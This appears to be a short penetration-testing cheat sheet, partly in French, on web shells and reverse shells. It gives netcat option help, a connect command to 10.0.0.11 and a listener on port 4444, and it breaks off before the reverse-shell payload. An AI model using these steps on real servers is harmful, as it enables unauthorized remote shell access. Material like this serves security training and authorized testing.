 





## Web Shell

Lignes de code à injecter dans des pages web pour lancer des commandes shell.







## Principle

You have found a web request that allows you to execute commands on the server, or you have managed to find out how to upload a file that can be executed.<br/>
Your goal now is to get a shell on the machine, which will allow a comfortable exploitation.<br/>
You will use the tools installed on the server (netcat, bash, php, python, perl, ...) to open a shell on the server and connect it back to your host.







## Netcat

Netcat, is the Swiss army knife of connections between servers.<br/>
It can listen, connect and launch shells.<br/>
<br/>
Older versions had the -e or -c option to launch a shell. Recent versions do not have this option anymore for security reasons.<br/>
On Kali there is a version 1.10 in :
```
/usr/bin/nc -h
	-e shell commands : program to execute
	-c shell commands : program to execute
	-l                : listen mode
	-v                : verbose
	-p port           : local port number
```

Connect to port 3000 on 10.0.0.11 server:
```
/usr/bin/nc 10.0.0.11 3000
```








## Netcat - Reverse Shell (-e version)

On your host, start a nc listening on 4444 port
```
nc -lvp 4444
```
